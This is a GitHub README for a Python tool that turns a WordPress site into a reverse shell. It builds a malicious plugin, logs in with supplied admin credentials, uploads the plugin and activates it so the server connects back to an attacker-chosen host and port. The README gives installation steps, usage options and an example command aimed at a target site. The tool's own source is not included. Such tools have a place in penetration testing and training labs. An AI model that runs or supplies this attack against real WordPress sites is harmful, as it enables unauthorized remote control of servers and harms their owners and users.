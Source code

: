 

# Wordpress Reverse Shell Plugin Uploader
### This simple script takes care of making a reverse shell WordPress plugin, uploading it to the website, and activating it to get the reverse shell.
## Installation:

1. Clone the repo
   ```sh
   git clone https://github.com/omaralbalolly/Wordpress-Reverse-Shell-Plugin-Uploader.git
   ```
2. Install the dependencies
   ```sh
   pip3 install requests
   pip3 install bs4
   ```
## Usage:
```shell
usage: wp_pwn.py [-h] -u USERNAME -p PASSWORD -H HOST -P PORT [-k] url

Wordpress Reverse Shell Plugin Uploader

positional arguments:
  url                   Wordpress target url [https://localhost/wp]

optional arguments:
  -h, --help            show this help message and exit
  -u USERNAME, --username USERNAME
                        Wordpress Username
  -p PASSWORD, --password PASSWORD
                        Wordpress Password
  -H HOST, --host HOST  Attacker Host
  -P PORT, --port PORT  Attacker Port
  -k                    Disable SSL/TLS Check
```

<!-- USAGE EXAMPLES -->
## Example:
```shell
python3 wp_revshell.py https://localhost/wp -u admin -p password123 -H 192.168.1.10 -P 1337 -k
```

